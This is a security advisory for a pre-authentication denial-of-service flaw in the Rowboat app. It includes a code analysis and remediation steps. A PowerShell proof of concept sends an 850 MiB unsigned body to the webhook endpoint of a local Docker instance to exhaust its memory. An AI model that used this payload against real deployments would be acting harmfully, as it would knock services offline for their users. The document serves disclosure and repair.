

# Rowboat has a denial of service vulnerability in pre-authenticated request body handling

## supplier

https://github.com/rowboatlabs/rowboat

## affected version

Rowboat local source package `demo.rowboatlabs.com` version `0.1.0`

## vulnerability file

```text
apps/rowboat/app/api/composio/webhook/route.ts
apps/rowboat/src/application/use-cases/composio/webhook/handle-composio-webhook-request.use-case.ts
apps/rowboat/app/api/v1/[projectId]/chat/route.ts
apps/rowboat/app/lib/types/api_types.ts
apps/rowboat/app/lib/types/types.ts
apps/rowboat/src/entities/models/turn.ts
```

## describe

Rowboat has a denial of service vulnerability in multiple HTTP entry points that fully read, parse, validate, or log attacker-controlled request bodies before authentication or signature verification.

The Composio webhook route calls `request.text()` and logs the complete payload before verifying the webhook signature. The API chat route calls `req.json()` and validates the complete `messages` and `mockTools` body before API key authorization. The related Zod schemas do not define maximum request size, message count, tool-call count, string length, object depth, or `mockTools` entry limits.

An unauthenticated attacker can send oversized bodies to these endpoints and force the Rowboat web process to allocate memory and perform parsing/logging work before the request is rejected. In the webhook path, the full unsigned payload can also be persisted to logs before verification. This can exhaust process memory, grow logs, degrade availability, and make normal Rowboat requests fail.

## code analysis

The Composio webhook route reads and logs the complete request body before calling the controller:

```ts
const payload = await request.text();
const headers = Object.fromEntries(request.headers.entries());
logger.log('received event', JSON.stringify(headers), payload);

await handleComposioWebhookRequestController.execute({
    headers,
    payload,
});
```

The signature check happens later in the use case:

```ts
const { headers, payload } = request;

try {
    this.verifySignature(headers, payload);
} catch (error) {
    throw new BadRequestError("Payload verification failed");
}
```

The API chat route parses and validates the full JSON body before passing the API key into the controller:

```ts
const body = await req.json();
data = ApiRequest.parse(body);
```

Only after parsing does the route forward the API key:

```ts
apiKey: req.headers.get("Authorization")?.split(" ")[1],
```

The API key check is performed later by the authorization policy:

```ts
if (!apiKey) {
    throw new BadRequestError('API key is required');
}

const result = await this.apiKeysRepository.checkAndConsumeKey(projectId, apiKey);
if (!result) {
    throw new NotAuthorizedError('Invalid API key');
}
```

The API request schema has no quantity or length limits:

```ts
export const ApiRequest = z.object({
    messages: z.array(Message),
    conversationId: z.string().nullable().optional(),
    mockTools: z.record(z.string(), z.string()).nullable().optional(),
    stream: z.boolean().optional().nullable().default(false),
});
```

The message schema also uses unbounded strings and arrays:

```ts
content: z.string()

toolCalls: z.array(z.object({
    id: z.string(),
    type: z.literal("function"),
    function: z.object({
        name: z.string(),
        arguments: z.string(),
    }),
}))
```

The downstream turn input model keeps the same unbounded structure:

```ts
input: z.object({
    messages: z.array(Message),
    mockTools: z.record(z.string(), z.string()).nullable().optional(),
}),
```

## PoC

The following PoC is a bounded verification against the Composio webhook path using the production Rowboat Docker image with real MongoDB and Redis dependencies. It uses a 1 GiB Rowboat web container, sends one unsigned 850 MiB webhook body, and checks that the Rowboat process is killed before a normal post-attack request can complete.

```powershell
$ErrorActionPreference = "Continue"

$Name = "rowboat-preauth-body-dos-1g"
$Image = "rowboat-upload-dos-repro-rowboat:latest"
$Network = "rowboat-upload-dos-repro_default"
$BaseUrl = "http://127.0.0.1:3102"
$Payload = "$env:TEMP\unsigned-webhook-850m.bin"

docker rm -f $Name 2>$null | Out-Null

docker run -d --name $Name `
  --network $Network `
  -p 127.0.0.1:3102:3000 `
  --memory 1g `
  -e NODE_ENV=production `
  -e USE_AUTH=false `
  -e AUTH0_SECRET=local_repro_only_secret `
  -e AUTH0_BASE_URL=http://localhost:3102 `
  -e AUTH0_ISSUER_BASE_URL=https://invalid.local `
  -e AUTH0_CLIENT_ID=local-repro `
  -e AUTH0_CLIENT_SECRET=local-repro `
  -e MONGODB_CONNECTION_STRING=mongodb://rowboat-upload-dos-repro-mongo-1:27017/rowboat_prebody_1g `
  -e REDIS_URL=redis://rowboat-upload-dos-repro-redis-1:6379 `
  -e USE_COMPOSIO_TOOLS=true `
  -e COMPOSIO_TRIGGERS_WEBHOOK_SECRET=local-repro-secret `
  -e OPENAI_API_KEY=ollama-local-no-secret `
  -e PROVIDER_API_KEY=ollama-local-no-secret `
  -e PROVIDER_BASE_URL=http://host.docker.internal:11434/v1 `
  -e PROVIDER_DEFAULT_MODEL=llama3.2:3b `
  $Image

Start-Sleep -Seconds 3

$baseline = curl.exe --silent --output NUL --write-out "%{http_code}" "$BaseUrl/"
Write-Host "BASELINE_GET / status=$baseline"
Write-Host "MEMORY_BEFORE $(docker stats $Name --no-stream --format '{{.MemUsage}}')"

$stream = [System.IO.File]::Open($Payload, [System.IO.FileMode]::Create)
try { $stream.SetLength(850MB) } finally { $stream.Dispose() }

$attack = curl.exe --silent --show-error --max-time 90 `
  --request POST `
  --header "Content-Type: application/json" `
  --data-binary "@$Payload" `
  --output "$env:TEMP\rowboat-preauth-attack-response.txt" `
  --write-out "%{http_code}" `
  "$BaseUrl/api/composio/webhook" 2>&1

Write-Host "ATTACK_UNSIGNED_WEBHOOK result=$attack exit=$LASTEXITCODE"
Start-Sleep -Seconds 3

$inspect = docker inspect $Name --format "OOMKilled={{.State.OOMKilled}} ExitCode={{.State.ExitCode}} Status={{.State.Status}} Running={{.State.Running}}"
Write-Host "DOCKER_INSPECT $inspect"

$post = curl.exe --silent --show-error --max-time 5 --output NUL --write-out "%{http_code}" "$BaseUrl/" 2>&1
Write-Host "POST_ATTACK_GET / result=$post exit=$LASTEXITCODE"

Remove-Item -LiteralPath $Payload -Force -ErrorAction SilentlyContinue
```


## repair suggestion

1. Enforce a hard request body byte limit before `request.text()` and `req.json()`.
2. Reject webhook requests with missing or malformed signature headers before reading large bodies.
3. Verify webhook signatures using a streaming or byte-capped raw body reader.
4. Do not log complete webhook payloads; log only bounded metadata, hashes, or truncated previews.
5. Move API key extraction and cheap authorization checks before JSON schema parsing where possible.
6. Add strict Zod limits for `messages`, `toolCalls`, `content`, `arguments`, `mockTools` keys and values, and nested object depth.
7. Return `413 Payload Too Large` for over-limit requests before expensive parsing or validation.
8. Add per-IP and per-route rate limits for webhook and API chat endpoints.
9. Add regression tests that send oversized unsigned webhooks and oversized unauthenticated API chat bodies and assert early rejection without process memory growth.
